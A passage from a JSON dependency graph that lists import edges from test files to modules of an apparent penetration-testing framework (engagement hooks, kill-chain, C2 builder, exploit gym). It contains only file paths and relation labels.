"tests/test_engage_gates.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_gates.py", "target": "modules/traffic_recorder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_gates.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_gates.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_gates.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_gates.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_gates.py", "target": "modules/planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_gates.py", "target": "modules/planner.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_gates.py", "target": "cli/reasoning_stream.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_gates.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_gates.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_orchestrator.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_orchestrator.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_orchestrator.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_orchestrator.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_orchestrator.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_orchestrator.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_orchestrator.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_orchestrator.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_orchestrator.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_orchestrator.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_orchestrator.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_orchestrator.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_orchestrator.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_orchestrator.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_orchestrator.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_orchestrator.py", "target": "skills/autonomous_daemon.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_orchestrator.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_orchestrator.py", "target": "skills/lazyown_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_summary.py", "target": "modules/engage_summary.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engage_summary.py", "target": "modules/evidence.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_and_ping.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_command_gate.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_command_gate.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_command_gate.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_command_gate.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_command_gate.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_command_gate.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_command_gate.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_command_gate.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_command_gate.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_command_gate.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_command_gate.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_command_gate.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_command_gate.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_command_gate.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "modules/cli_auth.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli/engagement_hooks.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_estorides_fusion.py", "target": "modules/estorides_fusion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_estorides_fusion.py", "target": "modules/surface_ops.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_evidence_hints.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_evidence_hints.py", "target": "cli/recommendation_signals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_evidence_hints.py", "target": "cli/tips_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_executor_kernel.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_executor_kernel.py", "target": "modules/command_executor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_exploitgym_gym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_exploitgym_gym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_exploitgym_gym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_exploitgym_gym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_exploitgym_gym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_exploitgym_gym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_exploitgym_gym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_exploitgym_gym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_exploitgym_gym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_exploitgym_gym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_exploitgym_gym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_exploitgym_gym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_exploitgym_gym.py", "target": "modules/exploitgym_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_exploitgym_gym.py", "target": "cli/commands/exploitgym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_exploitgym_gym.py", "target": "modules/lazyown_bridge.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_exploration_and_addons.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_exploration_and_addons.py", "target": "cli/exploration.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_exploration_and_addons.py", "target": "cli/exploration_view.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_finding_lifecycle.py", "target": "modules/osint_enrich.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_finding_lifecycle.py", "target": "modules/finding_lifecycle.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_finding_lifecycle.py", "target": "modules/osint_enrich.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_fuzzy_picker.py", "target": "cli/fuzzy_picker.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_fuzzy_picker.py", "target": "cli/banner_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_fuzzy_picker.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_graph_advisor.py", "target": "cli/graph_advisor.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_graph_overlay.py", "target": "cli/graph_overlay.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_hash_cracker.py", "target": "modules/hash_cracker.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_help_ui_command_set.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_help_ui_command_set.py", "target": "cli/commands/_dormancy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_help_ui_command_set.py", "target": "cli/commands/help_ui.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_help_ui_command_set.py", "target": "cli/commands/help_ui.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_help_ui_command_set.py", "target": "cli/commands/help_ui.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_help_ui_command_set.py", "target": "cli/registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_help_ui_command_set.py", "target": "cli/commands/help_ui.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_help_ui_command_set.py", "target": "cli/commands/misc_migrated.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_host_policy.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_host_policy.py", "target": "core/host_policy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_host_policy.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_html_sanitizer.py", "target": "lazyc2/security/html_sanitizer.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_https_redirect.py", "target": "lazyc2/security/https_redirect.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_improvements_spec.py", "target": "cli/commands/_dormancy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_improvements_spec.py", "target": "cli/commands/orchestration.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_improvements_spec.py", "target": "cli/registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_improvements_spec.py", "target": "cli/status_bar.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_improvements_spec.py", "target": "skills/unified_orchestrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_improvements_spec.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_improvements_spec.py", "target": "cli/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_improvements_spec.py", "target": "cli/commands/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_improvements_spec.py", "target": "cli/commands/orchestration.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_improvements_spec.py", "target": "cli/commands/orchestration.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_improvements_spec.py", "target": "cli/status_bar.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_improvements_spec.py", "target": "cli/status_bar.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_improvements_spec.py", "target": "cli/status_bar.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_improvements_spec.py", "target": "cli/reactive_hints.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_improvements_spec.py", "target": "skills/unified_orchestrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_improvements_spec.py", "target": "skills/unified_orchestrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_improvements_spec.py", "target": "skills/unified_orchestrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "cli/commands/infra.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "cli/commands/infra.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "cli/commands/infra.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "cli/commands/infra.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "cli/commands/infra.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "modules/c2_builder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "modules/c2_builder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "modules/c2_builder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "modules/professional_report.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "modules/professional_report.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "modules/professional_report.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "modules/redteam_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "cli/commands/lab.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "cli/commands/lab.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "cli/commands/lab.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "cli/commands/lab.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "cli/commands/lab.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "modules/c2_builder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "modules/c2_builder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "modules/c2_builder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "cli/commands/infra.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "cli/commands/lab.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "cli/commands/lab.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "cli/commands/lab.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "modules/redteam_gym.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "modules/session_cleanup.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "modules/session_cleanup.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_infra_disposable.py", "target": "core/payload_schema.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_input_fuzz.py", "target": "cli/plugin_tiers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_input_fuzz.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_intel_fusion.py", "target": "modules/intel_fusion.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_intel_fusion.py", "target": "modules/lazy_loop.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_intel_fusion.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_intelligence_engine.py", "target": "modules/intelligence_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_journal.py", "target": "scripts/journal.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain.py", "target": "cli/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_auto_refresh.py", "target": "cli/tips_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_gap_signal.py", "target": "cli/recommendation.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_gap_signal.py", "target": "cli/recommendation_signals.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_snapshot.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_snapshot.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_snapshot.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_snapshot.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified.py", "target": "cli/ops_commands.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/killchain.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_killchain_unified_v2.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": 